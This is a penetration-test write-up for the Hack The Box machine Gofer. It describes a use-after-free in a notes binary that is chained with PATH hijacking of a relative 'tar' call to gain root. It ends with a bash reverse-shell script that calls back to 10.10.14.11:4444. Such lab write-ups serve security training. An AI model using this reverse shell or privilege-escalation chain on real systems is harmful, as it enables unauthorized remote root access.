


# Gofer Pentest
Alexander Kilroy submission for CPTC 2023-2024

[Machine Hacked](https://app.hackthebox.com/machines/Gofer)
[Proof of Completion](https://www.hackthebox.com/achievement/machine/842922/554)
## Table of contents

  ### 1. High Severity Findings
  * ####  1a. Use After Free Vulnerability leads to local privilege escalation
  * ####  1b. Improper access control on web proxy leads to SSRF and aribtrary sending of emails
  ### 2. Medium Severity Findings
  * #### 2a. CronJob leaks credentials of employee account
  ### 3. Low Severity Findings
  * #### 3a. Anonymous Access to SMB shares allows for user enumeration
  * #### 3b. Weak password policy
  ### 4. Remedations
  ### 5. Executive Summary

  ## High Severity Findings

  ### Use After Free Vulnerability leads to local privilege escalation
  The proprietary note taking sotware hosted on GOFER at /usr/local/bin/notes allows for local privilege escalation through a UAF vulnerability that occurs when a user deletes a user then creates a malciious note. This causes the application to think it is being ran by the root user causing the process to elevate to root uid and run a vulnerable system command. Arbitrary command execution can be achieved by prepending a writeable path to the user's PATH variable and creating a malicious script in that path called tar. 

  #### Granular breakdown of vulnerability
<span style="display:block" align="left">
     
</span>

  This code creates a UAF vulernability because the pointer to this freed memory is not reset to 0x0 like when deleting a note.
  
   <span style="display:block" align="left">
     
     
    </span>
    
  \
  &nbsp;
  \
  &nbsp;
  \
  &nbsp;
  \
  &nbsp;
  \
  &nbsp;
  
 As a relative path is called to tar by prepending to the PATH variable another file besides tar can be ran as root if it exists before tar is found. Below is the simple script used to gain remote command line access.
 
 ```
 #!/bin/bash

 bash -i >& /dev/tcp/10.10.14.11/4444 0>&1
 ```
  
